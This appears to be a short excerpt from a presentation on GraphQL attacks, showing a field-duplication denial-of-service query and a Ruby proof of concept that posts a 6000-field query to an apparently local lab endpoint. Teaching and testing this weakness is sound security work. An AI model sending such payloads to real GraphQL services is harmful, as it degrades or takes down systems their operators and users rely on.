 ![bg fit](assets/dos-recursion_02.png)

---

### Denial of Service - Field duplication attack

```graphql
query {
  pastes {
    ipAddr # 1
    ipAddr # 2
    # ...
    ipAddr # 1000
  }
}
```

---

Ruby PoC for field duplication:

```ruby
require 'httpx'

copy_level = 6000
copy_pattern = 'ipAddr,'
payload = copy_pattern * copy_level

data = { 'query' => "query{pastes{#{payload}}}"}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---